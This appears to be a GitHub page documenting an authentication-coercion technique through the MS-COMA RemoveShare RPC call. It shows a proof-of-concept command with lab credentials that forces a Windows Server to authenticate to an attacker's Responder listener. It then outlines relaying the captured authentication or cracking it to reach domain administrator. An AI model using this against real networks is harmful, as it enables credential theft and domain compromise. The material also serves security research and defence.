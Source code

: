 # MS-COMA - Remote call to RemoveShare (opnum 5)

## Summary

+ **Protocol**: [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd)

+ **Protocol UUID**: 182c40fa-32e4-11d0-818b-00a0c9231c29

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`RemoveShare`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/965f9577-2b5b-48c8-98c3-fdfb5a0365a1)

+ **Function operation number**: `5`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol (with uuid `182c40fa-32e4-11d0-818b-00a0c9231c29` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) and allows to call RPC functions of this protocol. We will then call the remote [`RemoveShare`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/965f9577-2b5b-48c8-98c3-fdfb5a0365a1) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RemoveShare('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT RemoveShare(
   [in] LPCWSTR pwszShareName
 );
```

## References

+ Documentation of protocol [MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd

+ Documentation of function `RemoveShare`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/965f9577-2b5b-48c8-98c3-fdfb5a0365a1